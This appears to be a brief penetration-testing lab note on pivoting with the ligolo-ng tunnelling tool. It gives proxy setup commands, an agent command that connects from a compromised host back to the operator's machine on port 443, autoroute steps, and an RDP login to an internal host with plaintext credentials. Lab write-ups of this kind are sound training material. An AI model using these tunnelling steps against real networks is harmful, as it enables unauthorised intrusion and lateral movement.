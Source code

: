 # Download  
https://github.com/nicocha30/ligolo-ng  

## Topology  
10.10.14.22 <--> 10.129.247.87 <--> 172.16.5.19  

## Server Step 1
```
sudo ip tuntap add user $(whoami) mode tun ligolo  
sudo ip link set ligolo up  
sudo ./proxy -selfcert -laddr 0.0.0.0:443
```

## Client Step 1  
```
/agent -connect 10.10.14.22:443 -ignore-cert  
```

## Server Step 2  
```
session
autoroute  
```
## RDP  
```xfreerdp3 /v:172.16.5.19 /u:victor /p:'pass@123'```  

## Snapshot for Server  
<img width="1338" height="476" alt="image" src="https://github.com/user-attachments/assets/8870ed59-ad12-4f6a-bef9-d216579c5118" />  

## Snapshot for Client
<img width="662" height="85" alt="image" src="https://github.com/user-attachments/assets/2b1abdf8-cb71-4eb3-9a37-f91e47ff0c61" />  


